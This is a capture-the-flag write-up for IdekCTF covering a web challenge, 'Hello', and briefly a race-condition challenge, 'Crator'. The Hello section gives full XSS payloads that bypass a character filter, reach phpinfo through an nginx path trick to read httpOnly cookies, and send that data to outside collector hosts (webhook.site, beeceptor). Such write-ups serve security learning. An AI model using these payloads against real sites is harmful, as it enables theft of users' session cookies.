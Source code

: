 # Writeups for IdekCTF

# Hello (Web)

This was like a normal admin bot cookie exfiltration challenge but with some twists.

Firstly we have these files:
index.php, info.php, admin.js, nginx.conf.

Notable things about each of these:

The info.php basically fetches the phpinfo() which is a function that displays a lot of information especially the cookie of the viewer.
And most importantly it can even display httpOnly cookies which can't normally be accessed by client side javascript.

https://www.webhackingtips.com/weekly-tips/week-8-stealing-httponly-cookies-from-phpinfo

index.php
This page accepts a name attribute in the GET request,creates a local variable with substring of this value(But does not use this variable!)
and then echo's the same after filtering some characters (`$trimmed = array("\r", "\n", "\t", "/", " ")`). 
But this filter is not enough and it is vulnerable to XSS like `/?name=<svg%0conload=alert(123)>`. 

The admin.js shows that the flag is in the bot's cookie.

Finally the nginx conf shows that info.php is resticted to only localhost(and the admin bot is not running on the same system). But this can be bypassed due to 
a php quirk: There is a known trick in php, if we access to /a.php/b.php, the server will ignore the second php file and point us to /a.php. 
In the nginx configuration file they are matching exactly /info.php so if we try /info.php/anything.php, 
it will not match the nginx rule and it will be allowed!

Combining these our payload should be:

```
<script>
fetch("/info.php/index.php")
  .then(response => response.text())
  .then(data => fetch("https://webhook.site/61fec18d-858c-459a-ad80-b3165f77caca/" + btoa(data.substring(data.indexOf("$_COOKIE"), data.indexOf("$_COOKIE") + 100))))
</script>
```
We can't put this directly due to the filter so we base64 encode it. Also we have to url encode the base64 string because of the '+' in it.
The final payload to send to the bot:
`http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=eval(atob("ZmV0Y2goIi9pbmZvLnBocC9pbmRleC5waHAiKQogIC50aGVuKHJlc3BvbnNlID0%2BIHJlc3BvbnNlLnRleHQoKSkKICAudGhlbihkYXRhID0%2BIGZldGNoKCJodHRwczovL3dlYmhvb2suc2l0ZS82MWZlYzE4ZC04NThjLTQ1OWEtYWQ4MC1iMzE2NWY3N2NhY2EvIiArIGJ0b2EoZGF0YS5zdWJzdHJpbmcoZGF0YS5pbmRleE9mKCIkX0NPT0tJRSIpLCBkYXRhLmluZGV4T2YoIiRfQ09PS0lFIikgKyAxMDApKSkpCg%3D%3D"))>`

This works but there is another interesting approach: https://vaktibabat.github.io/posts/idek_2024/
Instead of base64 you get the filtered elements using substring. So `http://` using `window.location.href.substring(0, 7)` as the windows is http://idek-hello.chal.idek.team:1337
and another substring for getting the '/', `window.location.href.substring(5, 6)`.
So this .js code:

```
fetch(window.location.href.substring(0, 7) + "idek-hello.chal.idek.team:1337" + bwindow.location.href.substring(5,6) + "info.php" + window.location.href.substring(5,6) + "index.php").then(function(response) {
	response.text().then(function(txt) {
	txt.split(`\n`).forEach(function(line) {
		if(line.indexOf("FLAG")!=-1) {
		fetch(window.location.href.substring(0, 7) + "mymockserver123456.free.beeceptor.com" + window.location.href.substring(5,6) + "cookies?resp=" + line)}
	})
	})
})
```
becomes 

`http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=fetch(window.location.href.substring(0, 7)%2b"idek-hello.chal.idek.team:1337"%2bwindow.location.href.substring(5,6)%2b"info.php"%2bwindow.location.href.substring(5,6)%2b"index.php").then(function(response){response.text().then(function(txt){txt.split(`\n`).forEach(function(line){if(line.indexOf("FLAG")!=-1){fetch(window.location.href.substring(0, 7)%2b"mymockserver123456.free.beeceptor.com"%2bwindow.location.href.substring(5,6)%2b"cookies?resp="%2bline)}})})})>`
which is sent to the bot.

# Crator

Its basically a race condition where you generate a file containing the flag using one endpoint, leave it on a infinite loop to prevent the file from getting deleted and extract the 
flag using another endpoint before the code  execution of the first one is stopped by the instance(which happens in about 1s). Very detailed and better writeup:
https://vaktibabat.github.io/posts/idek_2024/